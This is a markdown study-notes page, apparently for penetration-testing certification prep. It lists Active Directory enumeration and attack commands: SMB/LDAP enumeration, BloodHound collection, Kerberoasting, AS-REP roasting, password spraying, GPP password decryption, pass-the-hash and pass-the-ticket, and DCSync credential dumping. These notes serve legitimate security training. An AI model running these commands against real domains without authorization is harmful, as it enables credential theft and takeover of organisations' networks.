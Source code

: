 ```yaml
---
title: Active Directory Assessment & Exploitation
parent: CPTS
grand_parent: Categories
nav_order: 5
has_children: false
layout: default
---
```


# Active Directory Assessment & Exploitation

## Overview

This page focuses on techniques used to enumerate, assess, and exploit Windows Active Directory environments in internal network engagements.

---

## AD Enumeration (Unauthenticated)

### Host Discovery
```bash
nmap -sS -p 88,135,139,445,389,636,3268,5985 <target>
```

### SMB Enumeration
```bash
smbclient -L //<target>/ -N
nmap --script smb-enum-shares,smb-enum-users -p445 <target>
enum4linux-ng <target>
```

### LDAP Enumeration
```bash
ldapsearch -x -h <target> -s base
```

---

## AD Enumeration (Authenticated)

### CrackMapExec for Basic Info
```bash
crackmapexec smb <target>/24 -u <user> -p <pass>
```

### BloodHound Collection
```bash
neo4j console &
bloodhound-python -u <user> -p <pass> -dc <domain> -ip <target> -c all
```

Visualize with BloodHound GUI.

### Kerberoasting
```bash
impacket-GetUserSPNs <domain>/<user>:<pass> -dc-ip <target>
```
Crack with:
```bash
hashcat -m 13100 hash.txt rockyou.txt
```

### AS-REP Roasting
```bash
impacket-GetNPUsers <domain>/ -usersfile users.txt -dc-ip <target> -no-pass
```

---

## Exploiting AD Misconfigs

### Password Spraying
```bash
hydra -L users.txt -P passwords.txt <target> smb
```

### GPP Password Exploit (if found)
```bash
smbclient //target/SYSVOL -U <user>
# Navigate to GPP XML containing cpassword
```
Decrypt with:
```bash
gpp-decrypt <cpassword>
```

### Pass-the-Hash
```bash
crackmapexec smb <target> -u <user> -H <NTLM_hash>
```

### Pass-the-Ticket
```bash
export KRB5CCNAME=./ticket.ccache
python3 script.py -k -no-pass ...
```

---

## Privilege Escalation

### Find Domain Admin Paths (BloodHound)
- Use queries like "Shortest path to DA"

### Abuse Unconstrained Delegation
- Dump creds from memory after compromise

### DCSync Attack (if user has rights)
```bash
impacket-secretsdump <domain>/<user>:<pass>@<dc-ip>
```

---

## Notes
- Always test credentials across SMB, LDAP, WinRM
- Keep BloodHound up-to-date for query logic
- Focus on credential access, misconfig abuse, and lateral movement within AD scope
